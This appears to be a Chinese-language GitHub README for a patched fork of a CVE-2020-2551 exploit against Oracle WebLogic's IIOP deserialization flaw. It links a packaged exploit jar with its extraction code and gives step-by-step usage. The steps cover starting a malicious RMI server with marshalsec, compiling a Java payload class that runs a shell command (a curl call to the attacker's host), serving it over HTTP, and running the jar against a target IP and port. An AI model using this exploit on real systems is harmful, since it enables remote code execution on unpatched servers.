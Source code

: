 ## Patch CVE-2020-2551
更新原版本（https://github.com/Y4er/CVE-2020-2551.git）遇到为私有地址的服务器无法直连检测问题。


## 参考
https://xz.aliyun.com/t/7498< br >
https://xz.aliyun.com/t/7374#toc-13< br >



>>## CVE-2020-2551
>>Weblogic IIOP 反序列化
>>
>>## 测试环境
>>Weblogic10.3.6+jdk1.6
>>
>>[打包好的jar包](https://pan.baidu.com/s/1WancKEtKzXDxwWP0zz3QPg) 提取码：a6ob 
>>
>>## 漏洞利用
>>下载jar包，然后使用marshalsec起一个恶意的RMI服务，本地编译一个exp.java
>>```java
>>package payload;
>>
>>import java.io.IOException;
>>
>>public class exp {
>>
>>    public exp() {
>>        String cmd = "curl http://172.16.1.1/success";
>>        try {
>>            Runtime.getRuntime().exec(cmd).getInputStream();
>>        } catch (IOException e) {
>>            e.printStackTrace();
>>        }
>>    }
>>}
>>```
>>
>>**尽量使用和weblogic相同的jdk版本和依赖库(wlfullclient.jar)编译** 然后本地起一个web服务器
>>
>>```
>>python -m http.server --bind 0.0.0.0 80
>>```
>>
>>命令行运行jar包
>>```
>>java -jar weblogic_CVE_2020_2551.jar 172.16.1.128 7001 rmi://172.16.1.1:1099/exp
>>```
>>实际效果如图
>>![image](https://user-images.githubusercontent.com/40487319/75524749-81804100-5a49-11ea-8409-20746ca09299.gif)
>>
>>## 参考
>>
>>https://y4er.com/post/weblogic-cve-2020-2551/

